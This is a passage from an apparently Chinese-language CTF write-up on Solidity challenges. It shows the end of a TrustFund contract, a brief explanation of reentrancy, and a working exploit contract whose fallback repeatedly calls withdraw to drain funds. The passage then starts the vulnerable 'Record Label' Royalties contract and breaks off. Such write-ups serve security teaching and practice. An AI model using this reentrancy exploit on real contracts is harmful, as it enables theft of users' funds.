         function returnFunds() external payable ctf{
            require(msg.value == allowancePerYear, "Incorrect Transaction Value");
            require(withdrewThisYear==true, "Cannot Return Funds Before Withdraw");
            withdrewThisYear = false;
            numberOfWithdrawls=numberOfWithdrawls.sub(1);
        }
    }
    ```

重入攻击，写一个攻击合约，在其 fallback 中再次调用 withdraw 函数就可以实现重入，注意要在 MetaMask 发送交易时提高一下 gas，不然内部的交易会出现 gas 不足的问题

???+ done "exp"
    ```solidity
    contract Exploit {
        TrustFund challenge;
        constructor(address addr) public {
            challenge = TrustFund(addr);
        }
        function exp() public {
            challenge.withdraw();
        }
        function() public payable {
            challenge.withdraw();
        }
        function destroy(address addr) public {
            selfdestruct(addr);
        }
    }
    ```

---

## Record Label

??? question "题目合约"
    ```solidity
    pragma solidity 0.4.24;

    import "../CtfFramework.sol";
    import "../../node_modules/openzeppelin-solidity/contracts/math/SafeMath.sol";


    contract Royalties{

        using SafeMath for uint256;

        address private collectionsContract;
        address private artist;

        address[] private receiver;
        mapping(address => uint256) private receiverToPercentOfProfit;
        uint256 private percentRemaining;

        uint256 public amountPaid;

        constructor(address _manager, address _artist) public
        {
            collectionsContract = msg.sender;
            artist=_artist;
